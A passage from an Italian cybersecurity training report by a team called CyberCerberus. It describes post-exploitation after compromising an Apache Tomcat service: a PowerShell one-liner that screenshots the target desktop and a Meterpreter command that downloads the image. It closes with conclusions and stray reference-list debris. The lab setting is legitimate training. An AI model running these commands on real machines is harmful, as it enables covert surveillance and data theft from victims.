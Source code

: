#### **4.4 Cattura di uno screenshot**

1. Aprire **PowerShell** dalla shell di Windows:
   
   ```cmd
   powershell
   ```
2. Eseguire lo script per salvare uno screenshot:
   
   ```powershell
   Add-Type -AssemblyName System.Windows.Forms; Add-Type -AssemblyName System.Drawing; $bmp = New-Object Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height); $graphics = [Drawing.Graphics]::FromImage($bmp); $graphics.CopyFromScreen(0, 0, 0, 0, $bmp.Size); $bmp.Save('C:\Windows\Temp\screenshot.png'); $bmp.Dispose(); $graphics.Dispose()
   ```
3. Tornare a Meterpreter e scaricare lo screenshot:
   
   ```bash
   download C:\Windows\Temp\screenshot.png
   ```

## 🛠️ Conclusioni

- Il servizio **Apache Tomcat** è stato sfruttato con successo per ottenere una sessione Meterpreter.
- Sono state raccolte evidenze riguardo alla macchina target:
  - Tipo di macchina (virtuale o fisica).
  - Configurazioni di rete.
  - Stato delle webcam.
  - Screenshot del desktop.

---

---

# **🔮 Conclusioni e Prospettive Future**

Il team **CyberCerberus** ha dimostrato competenze avanzate nell’analisi e sfruttamento di vulnerabilità, producendo risultati concreti tra cui:

- Guide operative dettagliate per SQL Injection, XSS e exploit su Metasploit.
- Programmi in linguaggio C per simulazioni avanzate.
- Risoluzione di 2 CTF assegnate.

## **Passi futuri:**

- Approfondimento delle tecniche di difesa contro attacchi SQL Injection e XSS.
- Estensione delle attività di exploit su altre piattaforme vulnerabili.
- Ottimizzazione delle pratiche di debugging e sviluppo in C.

Siamo entusiasti dei progressi fatti e pronti a proseguire il nostro viaggio nel mondo della Cybersecurity! Grazie per l’attenzione. 🙌

**Sebastiano Gelmetti**
Team Leader & Supervisor, **CyberCerberus** ⭐

## FINE DOCUMENTO, [torna in cima](#-s8-build-week-2-report-operativo--cybercerberus).


[1]: 5
[2]: 3
[3]: 7
[4]: 9
[5]: 2
[6]: 8
[7]: 4
[8]: 1
[9]: 6
[10]: 10
[1]: 5
[2]: 3
[3]: 7
[1]: 1
[2]: 2
[3]: 3
[1]: 1
[2]: 2
[3]: 3
[1]: 1
[2]: 2
[1]: 1
[2]: 2